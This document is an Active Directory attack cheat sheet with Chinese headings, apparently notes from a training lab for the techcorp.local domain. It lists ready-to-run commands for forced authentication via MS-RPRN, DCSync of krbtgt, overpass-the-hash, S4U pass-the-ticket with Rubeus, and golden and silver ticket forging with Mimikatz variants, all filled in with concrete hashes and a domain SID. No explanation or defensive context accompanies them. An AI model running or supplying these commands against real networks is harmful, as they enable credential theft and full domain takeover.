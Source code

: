 # 强制流量认证(当Unconstrained时)
```
MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local
```

# Dcsync
```
SharpKatz.exe --Command dcsync --User us\krbtgt --Domain us.techcorp.local --DomainController us-dc.us.techcorp.local
```

# OverPass-The-Hash
```
SafetyKatz.exe "sekurlsa::pth /user:webmaster /domain:us.techcorp.local /aes256:2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0 /run:cmd.exe" "exit"
```

# PTT
```
Rubeus.exe s4u /user:appsvc /aes256:b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335 /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt
```

# 金票
BetterSafetyKatz.exe
```
BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

powershell
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

# 银票

```
BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /target:us-dc.us.techcorp.local /service:HOST /aes256:36e55da5048fa45492fc7af6cb08dbbc8ac22d91c697e2b6b9b8c67b9ad1e0bb /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
